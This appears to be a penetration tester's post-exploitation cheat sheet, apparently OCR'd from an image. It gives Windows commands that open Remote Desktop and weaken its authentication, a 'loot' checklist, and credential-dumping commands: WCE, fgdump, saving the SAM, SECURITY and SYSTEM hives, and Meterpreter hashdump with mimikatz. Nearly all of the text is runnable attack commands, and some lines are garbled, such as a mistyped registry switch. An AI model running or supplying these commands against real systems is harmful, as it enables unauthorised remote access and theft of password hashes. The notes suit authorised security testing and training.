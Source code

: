 netsh advfirewall firewall set rule group="remote desktop" new enable=Yes

reg add "hklm\system\currentControlSet\Control\Terminal Server" /v "AllowTSConnections" /t REG_DWORD /d 0x1 /f 

reg add "HKLM\System\CurrentControlSet\Control\Terminal Server" \f "DenyTSConnections" /t REG_DWORD /d 0x0 /f 

reg add "HKLM\System\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp\UserAuthentication = 0"

reg add "HKLM\System\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp\SecurityLayer = 0"

What out for the ticks in this article

https://www.petri.com/disable-remote-desktop-network-level-authentication-using-powershell



------------------------------------------------------------------------
----------------------------- LOOT LOOT LOOT LOOT -------------------
------------------------------------------------------------------------


## Loot

- Proof:
- Network secret:
- Password and hashes:
- Dualhomed:
- Tcpdump:
- Interesting files:
- Databases:
- SSH-keys:
- Browser:

### Proof

### Network secret

### Passwords and hashes

```
wce32.exe -w
wce64.exe -w
fgdump.exe

reg.exe save hklm\sam c:\sam_backup
reg.exe save hklm\security c:\security_backup
reg.exe save hklm\system c:\system

# Meterpreter
hashdump
load mimikatz
msv
```
